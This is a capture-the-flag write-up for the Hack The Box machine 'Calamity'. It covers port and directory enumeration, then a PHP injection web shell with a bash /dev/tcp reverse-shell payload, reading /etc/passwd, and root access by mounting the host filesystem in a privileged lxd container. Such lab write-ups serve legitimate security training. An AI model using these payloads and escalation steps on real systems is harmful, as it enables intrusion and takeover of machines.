



---
search:
  exclude: true
---
# Calamity Writeup

## Introduction :

Calamity is a hard linux box released back in June 2017.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sT** for tcp ports and **-sU** to for udp ports.
    
    
    [ 10.10.14.9/23 ] [ /dev/pts/9 ] [~/_HTB/Calamity]
    → sudo nmap -vvv -sTU -p- 10.10.10.27 --max-retries 0 -Pn --min-rate=500 | grep Discovered                                                                                                                        
    [sudo] password for nothing:
    Discovered open port 80/tcp on 10.10.10.27
    Discovered open port 22/tcp on 10.10.10.27
    

Once we know which ports are opened, we enumerate the ones we want with **-p** , using the flags **-sC** for default scripts, and **-sV** to enumerate versions.
    
    
    [ 10.10.14.9/23 ] [ /dev/pts/9 ] [~/_HTB/Calamity]
    → nmap -sCV -p80,22 10.10.10.27
    Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-07 15:55 BST
    Nmap scan report for 10.10.10.27
    Host is up (0.029s latency).
    
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey:
    |   2048 b6:46:31:9c:b5:71:c5:96:91:7d:e4:63:16:f9:59:a2 (RSA)
    |   256 10:c4:09:b9:48:f1:8c:45:26:ca:f6:e1:c2:dc:36:b9 (ECDSA)
    |_  256 a8:bf:dd:c0:71:36:a8:2a:1b:ea:3f:ef:66:99:39:75 (ED25519)
    80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    |_http-title: Brotherhood Software
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 8.00 seconds
    

## **Part 2 : Getting User Access**

Our nmap scan picked up port 80 so let's investigate it:

    
    
    [ 10.10.14.9/23 ] [ /dev/pts/9 ] [~/_HTB/Calamity]
    → gobuster dir -u http://10.10.10.27 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x "txt,html,php,asp,aspx,jsp" -t 50
    ===============================================================
    Gobuster v3.0.1
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
    ===============================================================
    [+] Url:            http://10.10.10.27
    [+] Threads:        50
    [+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
    [+] Status codes:   200,204,301,302,307,401,403
    [+] User Agent:     gobuster/3.0.1
    [+] Extensions:     html,php,asp,aspx,jsp,txt
    [+] Timeout:        10s
    ===============================================================
    2020/08/07 16:00:31 Starting gobuster
    ===============================================================
    /index.md (Status: 200)
    /uploads (Status: 301)
    /admin.php (Status: 200)
    Progress: 20842 / 220561 (9.45%)
    
    

Running gobuster we see that we have an interesting admin.php webpage:

And we get a commented line which hints us towards a password: "skoupidotenekes", so blindly we test the credentials admin:skoupidotenekes:

Now here the idea is to send GET requests to this admin.php page and test wether or not we can execute html code on it, and if we can, testing if we can execute php code (which would hopefully allow us to spawn a reverse shell).

Once the request is sent to the repeater, we change the html parameter to see if we can get anything:

And it looks like we are able to send and execute our own html code ! now let's see if we can execute php code:
    
    
    	<****?php echo "nihilist"; ?>

Now let's see if we can print out the phpinfo() function:
    
    
    	http://10.10.10.27/admin.php?html=%3C%3fphp+phpinfo()%3b+%3f%3E
    
    

 

It doesn't seem we can't get a reverse shell and/or execute commands so now let's try to execute commands on the machine os from our php injection:
    
    
    	<****?php system($_REQUEST["cmd"]); ?>

Here we request the parameter cmd, and so we add another parameter to set the cmd variable to "id" to see as which user we can execute our commands 
    
    
    	&cmd;=id
    
    

which gives us this request:
    
    
    	<%3fphp+system($_REQUEST["cmd"])%3b+%3f>&cmd;=id
    
    

` 

And we can execute commands as www-data! now let's get a reverse shell onto the box:
    
    
    	<%3fphp+system($_REQUEST["cmd"])%3b+%3f>&cmd;=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.9/9001+0>%261'
    
    

Here is our GET request: 
    
    
    	GET /admin.php?html=<%3fphp+system($_REQUEST["cmd"])%3b+%3f>&cmd;=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.9/9001+0>%261' HTTP/1.1
    	Host: 10.10.10.27
    	User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    	Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    	Accept-Language: en-US,en;q=0.5
    	Accept-Encoding: gzip, deflate
    	Referer: http://10.10.10.27/admin.php
    	Connection: close
    	Cookie: adminpowa=noonecares
    	Upgrade-Insecure-Requests: 1
    
    

` 

And we get a reverse shell ! However our reverse shell dies quickly which means that we probably have to do it manually without a reverse shell for now: 
    
    
    	/admin.php?html=<%3fphp+system($_REQUEST["cmd"])%3b+%3f>&cmd;=cat+/etc/passwd
    
    

` 

And we get the username xalvas! so let's try to read the userflag in the directory /home/xalvas/user.txt

And that's it ! we have been able to read the user flag.

## **Part 3 : Getting Root Access**

We can print out the user flag from our php code injection, but we need to get root access we need to poke around the box further:

Here we see that there is a file called recov.wav so we get it onto our box using base64 copypasting

Here we can just right click the response, and hit "copy to file"

Edit out the html part in nano, and then decode the b64 and use the "file" command utility to print out extra info about recov.wav:
    
    
    
    [ 10.10.14.9/23 ] [ /dev/pts/16 ] [~/_HTB/Calamity]
    → file recov.wav.b64.req
    recov.wav.b64.req: HTML document, ASCII text, with CRLF, LF line terminators
    
    [ 10.10.14.9/23 ] [ /dev/pts/16 ] [~/_HTB/Calamity]
    → nano recov.wav.b64.req
    
    [ 10.10.14.9/23 ] [ /dev/pts/16 ] [~/_HTB/Calamity]
    → mv recov.wav.b64.req recov.wav.b64
    
    [ 10.10.14.9/23 ] [ /dev/pts/16 ] [~/_HTB/Calamity]
    → base64 -d recov.wav.b64 > recov.wavv
    base64: invalid input
    
    [ 10.10.14.9/23 ] [ /dev/pts/16 ] [~/_HTB/Calamity]
    → base64 -di recov.wav.b64 > recov.wav
    
    [ 10.10.14.9/23 ] [ /dev/pts/16 ] [~/_HTB/Calamity]
    → file recov.wav
    recov.wav: RIFF (little-endian) data, WAVE audio, Microsoft PCM, 16 bit, stereo 44100 Hz
    
    [ 10.10.14.9/23 ] [ /dev/pts/16 ] [~/_HTB/Calamity]
    → audacity recov.wav
    

` 

The audio wav file is basically a rickroll track But if we invert one of the 2 audio files in audacity, we can hear the difference in between the 2 files and it says the following
    
    
    47936..* your password is 185
    
    

put back in place it says:
    
    
    your password is 18547936..*
    
    

so we try to login via ssh with the credentials xalvas:18547936..*
    
    
    [ 10.10.14.9/23 ] [ /dev/pts/11 ] [~]
    → ssh xalvas@10.10.10.27
    The authenticity of host '10.10.10.27 (10.10.10.27)' can't be established.
    ECDSA key fingerprint is SHA256:yT6ino7wgCPkMVczALjJ+BeH7VZB+It79p9HRVPEyuY.
    Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
    Warning: Permanently added '10.10.10.27' (ECDSA) to the list of known hosts.
    xalvas@10.10.10.27's password:
    Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-81-generic i686)
    
     * Documentation:  https://help.ubuntu.com
     * Management:     https://landscape.canonical.com
     * Support:        https://ubuntu.com/advantage
    
    9 packages can be updated.
    8 updates are security updates.
    
    
    Last login: Fri Jun 30 08:27:25 2017 from 10.10.13.44
    xalvas@calamity:~$ id
    uid=1000(xalvas) gid=1000(xalvas) groups=1000(xalvas),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
    xalvas@calamity:~$
    

Now by typing id we saw that xalvas is part of the lxd group, and this can be compared to being in a docker group. so first of all let's get an alpine linux docker image on our machine:
    
    
    
    xalvas@calamity:~$ id
    uid=1000(xalvas) gid=1000(xalvas) groups=1000(xalvas),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
    xalvas@calamity:~$ which lxc
    /usr/bin/lxc
    xalvas@calamity:~$ lxc --help
    Usage: lxc command [options]
    
    This is the LXD command line client.
    
    All of LXD's features can be driven through the various commands below.
    For help with any of those, simply call them with --help.
    
    Commands:
      config           Change container or server configuration options
      copy             Copy containers within or in between LXD instances
      delete           Delete containers and snapshots
      exec             Execute commands in containers
      file             Manage files in containers
      image            Manipulate container images
      info             Show container or server information
      launch           Create and start containers from images
      list             List the existing containers
      move             Move containers within or in between LXD instances
      profile          Manage container configuration profiles
      publish          Publish containers as images
      remote           Manage the list of remote LXD servers
      restart          Restart containers
      restore          Restore containers from snapshots
      snapshot         Create container snapshots
      start            Start containers
      stop             Stop containers
      version          Print the version number of this client tool
    
    Options:
      --all            Print less common commands
      --debug          Print debug information
      --verbose        Print verbose information
      --version        Show client version
    
    Environment:
      LXD_CONF         Path to an alternate client configuration directory
      LXD_DIR          Path to an alternate server directory
    
    

The idea here is to import an Alpine Linux machine onto calamity, and to basically use lxc's image import feature to get a root shell onto the host machine:
    
    
    [ 10.10.14.8/23 ] [ /dev/pts/24 ] [~]
    → sudo apt update -y
    Hit:1 http://packages.microsoft.com/repos/vscode stable InRelease
    Hit:2 http://archive-4.kali.org/kali kali-rolling InRelease
    Reading package lists... Done
    Building dependency tree
    Reading state information... Done
    All packages are up to date.
    
    [ 10.10.14.8/23 ] [ /dev/pts/24 ] [~]
    → sudo apt install docker.io
    Reading package lists... Done
    Building dependency tree
    Reading state information... Done
    docker.io is already the newest version (19.03.12+dfsg1-3).
    The following packages were automatically installed and are no longer required:
      libmpdec2 libx264-155
    Use 'sudo apt autoremove' to remove them.
    0 upgraded, 0 newly installed, 0 to remove and 0 not upgraded.
    
    [ 10.10.14.8/23 ] [ /dev/pts/24 ] [~/_HTB/Calamity]
    → ls
    recov.wav  recov.wav.b64  recov.wavv
    
    [ 10.10.14.8/23 ] [ /dev/pts/24 ] [~/_HTB/Calamity]
    → mkdir lxd
    
    [ 10.10.14.8/23 ] [ /dev/pts/24 ] [~/_HTB/Calamity]
    → cd lxd
    
    [ 10.10.14.8/23 ] [ /dev/pts/24 ] [~/_HTB/Calamity/lxd]
    → git clone https://github.com/saghul/lxd-alpine-builder.git
    Cloning into 'lxd-alpine-builder'...
    remote: Enumerating objects: 27, done.
    remote: Total 27 (delta 0), reused 0 (delta 0), pack-reused 27
    Unpacking objects: 100% (27/27), 15.98 KiB | 287.00 KiB/s, done.
    
    [ 10.10.14.8/23 ] [ /dev/pts/24 ] [~/_HTB/Calamity/lxd]
    → cd lxd-alpine-builder/
    
    [ 10.10.14.8/23 ] [ /dev/pts/24 ] [~/_HTB/Calamity/lxd/lxd-alpine-builder]
    → ls
    build-alpine  LICENSE  README.md
    

So here we install docker and git clone the lxd-alpine builder repo from saghul
    
    
    
    	[ 10.10.14.8/23 ] [ /dev/pts/24 ] [~/_HTB/Calamity/lxd/lxd-alpine-builder]
    	→ sudo su
    	root@nowhere:/home/nothing/_HTB/Calamity/lxd/lxd-alpine-builder# ls
    	build-alpine  LICENSE  README.md  rootfs
    	root@nowhere:/home/nothing/_HTB/Calamity/lxd/lxd-alpine-builder# ./build-alpine -a i686
    	Determining the latest release... v3.12
    	Using static apk from http://dl-cdn.alpinelinux.org/alpine//v3.12/main/x86
    	Downloading alpine-keys-2.2-r0.apk
    	tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
    	tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
    	tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
    	tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
    	tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
    	tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
    	tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
    	tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
    	tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
    	tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
    	tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
    	tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
    	tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
    	tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
    	tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
    	tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
    	tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
    	tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
    	tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
    	tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
    	Downloading apk-tools-static-2.10.5-r1.apk
    	tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
    	tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
    	Downloading alpine-mirrors-3.5.10-r0.apk
    	tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
    	tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
    	alpine-devel@lists.alpinelinux.org-4a6a0840.rsa.pub: OK
    	Verified OK
    	Selecting mirror http://nl.alpinelinux.org/alpine/v3.12/main
    	fetch http://nl.alpinelinux.org/alpine/v3.12/main/x86/APKINDEX.tar.gz
    	(1/19) Installing musl (1.1.24-r9)
    	(2/19) Installing busybox (1.31.1-r19)
    	Executing busybox-1.31.1-r19.post-install
    	(3/19) Installing alpine-baselayout (3.2.0-r7)
    	Executing alpine-baselayout-3.2.0-r7.pre-install
    	Executing alpine-baselayout-3.2.0-r7.post-install
    	(4/19) Installing openrc (0.42.1-r10)
    	Executing openrc-0.42.1-r10.post-install
    	(5/19) Installing alpine-conf (3.9.0-r1)
    	(6/19) Installing libcrypto1.1 (1.1.1g-r0)
    	(7/19) Installing libssl1.1 (1.1.1g-r0)
    	(8/19) Installing ca-certificates-bundle (20191127-r4)
    	(9/19) Installing libtls-standalone (2.9.1-r1)
    	(10/19) Installing ssl_client (1.31.1-r19)
    	(11/19) Installing zlib (1.2.11-r3)
    	(12/19) Installing apk-tools (2.10.5-r1)
    	(13/19) Installing busybox-suid (1.31.1-r19)
    	(14/19) Installing busybox-initscripts (3.2-r2)
    	Executing busybox-initscripts-3.2-r2.post-install
    	(15/19) Installing scanelf (1.2.6-r0)
    	(16/19) Installing musl-utils (1.1.24-r9)
    	(17/19) Installing libc-utils (0.7.2-r3)
    	(18/19) Installing alpine-keys (2.2-r0)
    	(19/19) Installing alpine-base (3.12.0-r0)
    	Executing busybox-1.31.1-r19.trigger
    	OK: 8 MiB in 19 packages
    

Let it build for a while, then once it's done building, we can use the scp command utility to move the tar.gz file onto the host machine, into xalvas' home directory.
    
    
    	[ 10.10.14.8/23 ] [ /dev/pts/24 ] [~/_HTB/Calamity/lxd/lxd-alpine-builder]
    	→ scp alpine-v3.12-i686-20200813_2019.tar.gz  xalvas@10.10.10.27:
    	xalvas@10.10.10.27's password:
    	alpine-v3.12-i686-20200813_2019.tar.gz                                             100% 3135KB 535.0KB/s   00:05
    	
    	[ 10.10.14.8/23 ] [ /dev/pts/24 ] [~/_HTB/Calamity/lxd/lxd-alpine-builder]
    	→ ssh xalvas@10.10.10.27
    	xalvas@10.10.10.27's password:
    	Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-81-generic i686)
    	
    	 * Documentation:  https://help.ubuntu.com
    	 * Management:     https://landscape.canonical.com
    	 * Support:        https://ubuntu.com/advantage
    	
    	9 packages can be updated.
    	8 updates are security updates.
    	
    	
    	Last login: Thu Aug 13 12:40:34 2020 from 10.10.14.8
    	xalvas@calamity:~$ mkdir lxd
    	xalvas@calamity:~$ mv al
    	alarmclocks/                            alpine-v3.12-i686-20200813_2019.tar.gz
    	xalvas@calamity:~$ mv alpine-v3.12-i686-20200813_2019.tar.gz lxd/
    	xalvas@calamity:~$ cd lxd/
    	xalvas@calamity:~/lxd$
    

from here, all we need to do is run the alpine image and init the container:
    
    
    
    	xalvas@calamity:~/lxd$ lxc image import alpine-v3.12-i686-20200813_2019.tar.gz --alias nothing-alpine
    	Generating a client certificate. This may take a minute...
    	If this is your first time using LXD, you should also run: sudo lxd init
    	To start your first container, try: lxc launch ubuntu:16.04
    	
    	
    	Image imported with fingerprint: 705e08c329b2c8f7d803a5b7b943b828631ab50a5bf05cf8bd62cb4d48c150f9
    	xalvas@calamity:~/lxd$
    	xalvas@calamity:~/lxd$ lxc image list
    	+----------------+--------------+--------+-------------------------------+------+--------+------------------------------+
    	|     ALIAS      | FINGERPRINT  | PUBLIC |          DESCRIPTION          | ARCH |  SIZE  |         UPLOAD DATE          |
    	+----------------+--------------+--------+-------------------------------+------+--------+------------------------------+
    	| nothing-alpine | 705e08c329b2 | no     | alpine v3.12 (20200813_20:19) | i686 | 3.06MB | Aug 13, 2020 at 6:34pm (UTC) |
    	+----------------+--------------+--------+-------------------------------+------+--------+------------------------------+
    	xalvas@calamity:~/lxd$ lxc init nothing-alpine privesc -c security.privileged=true
    	Creating privesc
    	xalvas@calamity:~/lxd$ lxc list
    	+---------+---------+------+------+------------+-----------+
    	|  NAME   |  STATE  | IPV4 | IPV6 |    TYPE    | SNAPSHOTS |
    	+---------+---------+------+------+------------+-----------+
    	| privesc | STOPPED |      |      | PERSISTENT | 0         |
    	+---------+---------+------+------+------------+-----------+
    

Here we basically init our alpine container with the security.privileged flag set to true. From here we need to add the privesc config to our host-root at /mnt/root and then start the privesc config from our container onto /bin/sh in order to get a root shell From the container, BUT the main host's root (/) directory is accessible from the container's /mnt/root, which means the root flag is accessible from /mnt/root/root/root.txt inside the container itself.
    
    
    
    	xalvas@calamity:~/lxd$ lxc config device add privesc host-root disk source=/ path=/mnt/root
    	Device host-root added to privesc
    	xalvas@calamity:~/lxd$ lxc start privesc
    	xalvas@calamity:~/lxd$ lxc exec privesc /bin/sh
    	~ # id
    	uid=0(root) gid=0(root)
    	~ # cat /mnt/root/root/root.txt
    	9bXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And that's it ! We have been able to print out the root flag.

## **Conclusion**

Here we can see the progress graph :

